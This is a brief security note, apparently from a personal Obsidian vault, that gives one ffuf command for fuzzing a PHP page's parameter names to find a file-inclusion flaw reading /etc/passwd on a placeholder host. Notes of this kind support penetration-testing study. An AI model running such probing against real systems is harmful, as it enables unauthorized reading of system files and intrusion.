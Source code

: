 
Fuzz file path's to look for `/etc/passwd`
```bash
ffuf -w /usr/share/wordlists/dirb/common.txt -fs 0 -u http://target.com/blog-post/archives/randylogs.php?FUZZ=/etc/passwd
```


```dataview
list from [[]] and !outgoing([[]])
```
